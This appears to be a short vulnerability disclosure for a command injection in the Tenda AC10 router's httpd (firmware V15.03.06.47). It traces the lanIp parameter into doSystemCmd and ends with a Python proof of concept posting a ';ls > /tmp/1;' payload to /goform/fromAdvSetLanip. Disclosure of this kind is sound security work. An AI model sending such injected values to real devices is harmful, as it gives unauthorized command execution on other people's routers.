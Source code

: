 # command injection

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a command injection in httpd/TendaTelnet

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](13.png)

call doSystemCmd, split lan.ip

![](14.png)

lan.ip get value from lanIp, and we can execute arbitrary command

## POC
```
url = "http://192.168.1.13/goform/fromAdvSetLanip"
payload = ';ls > /tmp/1;' + '\n'

r = requests.post(url, data={'lanIp': payload})
``` 

